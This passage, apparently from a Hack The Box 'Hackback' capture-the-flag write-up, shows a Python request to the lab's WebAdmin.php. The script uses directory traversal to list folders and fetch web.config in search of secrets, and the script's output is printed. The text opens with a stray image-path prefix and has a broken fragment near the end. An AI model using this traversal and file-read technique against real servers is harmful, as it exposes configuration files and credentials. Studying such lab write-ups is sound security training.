 ```python
	r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79", allow_redirects=False);
	print r.text
	with open("out.txt", "wb") as f:
		f.write((r.text.encode('utf-16')))
```

The output of the script looks like this when enumerating directories:

```
# ./hackback_read.py ..
200
200
[04 March 2019, 12:49:47 AM] 10.10.14.23 - Username: test@test.com, Password: Array
(
    [0] => .
    [1] => ..
    [2] => 2bb6916122f1da34dcd916421e531578
    [3] => App_Data
    [4] => aspnet_client
    [5] => css
    [6] => img
    [7] => index.php
    [8] => js
    [9] => logs
    [10] => web.config
    [11] => web.config.old
)

# ./hackback_read.py ../..
200
200
[04 March 2019, 12:49:54 AM] 10.10.14.23 - Username: test@test.com, Password: Array
(
    [0] => .
    [1] => ..
    [2] => admin
    [3] => facebook
    [4] => hackthebox
    [5] => paypal
    [6] => twitter
)
```

As we saw above, there's a `web.config` file that can potentially contain sensitive information.

I downloaded it with `./hackback_read.py ../web.config`

```
# ./hackback_read.py ../web.config
200
200
[04 March 2019, 12:51:22 AM] 10.10.14.23 - Username: test@test.com, Password: 

root@ragingunicorn:~/htb/hackback# cat web.config
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
[...]](root@ragingunicorn:~/htb/hackback# ./hackback_read.py /inetpub/wwwroot/new_phish/admin web.config
200
200
[04 March 2019, 12:53:51 AM] 10.10.14.23 - Username: test@test.com, Password: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
```